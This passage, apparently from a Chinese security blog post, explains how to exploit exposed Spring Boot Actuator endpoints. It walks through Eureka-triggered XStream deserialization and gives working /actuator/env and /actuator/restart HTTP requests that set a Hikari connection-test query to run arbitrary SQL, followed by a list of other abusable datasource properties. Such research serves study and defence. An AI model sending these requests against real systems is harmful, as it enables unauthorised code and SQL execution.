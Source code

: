   
基本原理如下，断点ClientResponse.getEntity(Class<T>, Type) line: 634	。  
  
refresh之后触发eureka-client去访问我们伪造的服务端。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDiccM6Bol62D61FRHLiaBIgKa6YbU85HhDjZicGrnRCKStcGK5hJMp0gBQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDd3aSKjOIMVzmxacMSK26pVIeqvyOScZIufQzyBd0v94KjmZP20Nshg/640?wx_fmt=png&from=appmsg "")  
  
其中getApplications这一步会触发漏洞。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDOkzibyjDefcUQs1XcJ9KEHibVQiaBHqC24ME9EJIEOZ6qCvT6dqNSTx3w/640?wx_fmt=png&from=appmsg "")  
  
获取xml请求后触发Xstream反序列化。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDdqGYibD6Iic41W5mLiaEhGu5HlAt6TW9qkLtqIahFH1k016ll9wRFOVgQ/640?wx_fmt=png&from=appmsg "")  
  
经典的fromXML  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDcL4OBuZYULts0vTE9HTfmkSyE5571vEmkVAdiccFW50BD2w1wvz78AA/640?wx_fmt=png&from=appmsg "")  
  
  
3，执行任意SQL(restart)  
  
数据库相关配置中，一般存在一个连接数据库的测试语句配置，或者一个执行查询时的测试语句配置。springboot中默认使用HikariCP作为链接池，因此可以修改这个属性来达到执行任意SQL的目的。  
```
POST /actuator/env HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 84

{"name":"spring.datasource.hikari.connection-test-query","value":"select sleep(2);"}
```  
```
POST /actuator/restart HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 2

{}
```  
  
随后访问一些跟数据库交互的接口，可以发现sleep(2)被执行了。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDFuzicIaibfvqWLuJRYia3CpJII1b1pibauYDno9nY21ea83OQ8POIbRkmQ/640?wx_fmt=png&from=appmsg "")  
  
其他跟sql执行相关的属性。  
```
spring.datasource.hikari.connection-init-sql
spring.datasource.tomcat.validationQuery
spring.datasource.dbcp2.validation-query
spring.datasource.dbcp2.connection-init-sqls
spring.datasource.druid.validation-query
spring.datasource.data
spring.sql.init.data-locations
```  
  